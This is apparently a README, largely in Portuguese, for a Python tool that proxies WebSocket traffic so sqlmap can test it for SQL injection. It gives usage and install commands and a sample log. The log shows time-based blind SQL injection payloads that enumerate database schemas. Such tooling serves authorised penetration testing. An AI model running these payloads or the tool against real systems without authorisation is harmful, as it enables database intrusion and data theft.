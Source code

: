 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=header"/>

[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=WebSocket-SQLI)](https://git.io/typing-svg)



<h4 align="center">Script to perform WebSocket test focusing on SQLI</h4>


<p align="center">
  <a href="#instalação">Install</a> •
  <a href="#executando-websocket">Usage</a>
</p>

---

O script é uma ferramenta de realizar teste em websocket com vulnerabilidade de SQL Injection deixando ele mais performático no pentester.

# Forma de utilização

```sh
python3 WebSocket_SQLI.py --ws "ws://teste:9000/" --lhost 127.0.0.1 --lport 6060
```
Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
```yaml
usage: python3 WebSocket_SQLI.py --ws "ws://teste:9000/" --lhost 127.0.0.1 --lport 6060

options:
  -h, --help            show this help message and exit
  --ws WEBSOCKET, -W WEBSOCKET Insert the websocket for the test
  --lhost HOST          Enter your ip. Default=127.0.0.1
  --lport PORT          Enter your port. Default=80

```

# Instalação

O script requer **python3** e para baixá-lo só usar:

```sh
git clone https://github.com/joaoviictorti/WebSocketSQLI
```

# Executando WebSocket

```console
python3 WebSocket_SQLI.py --ws "ws://teste.com:9091/" --lhost 127.0.0.1 --lport 6060
Use esse comando em outro terminal para realização da injeção com sqlmap: sqlmap -u "http://ip:port/?id=123" -p id .....

127.0.0.1 - - [29/Dec/2022 15:39:29] "GET /?id=1%20AND%20%28SELECT%206390%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20DISTINCT%28IFNULL%28CAST%28schema_name%20AS%20NCHAR%29%2C0x20%29%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%201%2C1%29%2C6%2C1%29%29%3E64%2C0%2C5%29%29%29%29%29iTrK%29 HTTP/1.1" 200 -
127.0.0.1 - - [29/Dec/2022 15:39:34] "GET /?id=1%20AND%20%28SELECT%206390%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20DISTINCT%28IFNULL%28CAST%28schema_name%20AS%20NCHAR%29%2C0x20%29%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%201%2C1%29%2C6%2C1%29%29%3E96%2C0%2C5%29%29%29%29%29iTrK%29 HTTP/1.1" 200 -
```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>